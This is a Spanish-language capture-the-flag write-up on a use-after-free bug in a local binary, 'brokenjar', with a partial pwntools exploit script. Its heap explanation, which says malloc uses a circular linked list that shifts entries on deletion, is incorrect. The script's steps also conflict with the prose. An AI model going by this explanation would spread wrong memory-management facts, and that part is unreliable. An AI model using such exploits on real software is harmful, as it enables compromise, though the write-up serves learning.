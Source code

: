 Este codigo es el mas importante de todos, ya que aqui reside el bug. Si te diste cuenta en el codigo previo, los strings son almacenados en el Heap y no en el Stack, esto lo sabemos porque se usa la funcion ```malloc()``` para el almacenamiento. En esta funcion, dicho bloque de memoria es liberado con la funcion ```free()```, pero no de la mejor manera.

## Ataque user-after-free.
Expliquemos algo de ciencias computacionales. La funcion ```malloc()```, como explique mas arriba, es encargada de asignar espacio dinamico en la memoria Heap, lo interesante radica en que malloc usa la estructura de datos **circular linked list**, por ende, si tenemos dos datos dentro de la lista, y queremos eliminar el index 0, el que lo sigue pasaria al index que fue eliminado.

```
INDEX:
    0             1
   ____         ____ 
  |hola|   |--→|root|
  |----|   |   |----|
  |____|---|   |____|---|
    ↑                   |
    ---------------------

    0 
   ____ 
  |root|
  |----|
  |____|
```

## Exploit
Teniendo en cuenta esto, podemos hacer lo siguiente:
 - Crear un usuario en el index 0, con 4 bytes y escribir 4 caracteres de forma random, en mi caso le pondre "hola", 
 - Creamos una contraseña con exactamente los mismos valores, index 0, 4 bytes, pero con "root" en el string.
 - Eliminamos el usuario con la opcion 4.
 - Ejecutamos la opcion 5 y ya tendriamos el pwn.

El exploit es el siguiente:

```
from pwn import *

target = process("./brokenjar")

"""
Allocating 4 bytes with a string "toor". The string could be 
whatever as long as it has 4 bytes (4 chars).
"""
target.sendline("1")
target.sendline("0")
target.sendline("4")
target.sendline("toor")

"""
User after free is in this section.
"""
target.sendline("4")
target.sendline("0")

"""
Let's create a password with "root" as string into the index 0
"""
target.sendline("2")
target.sendline("0")
```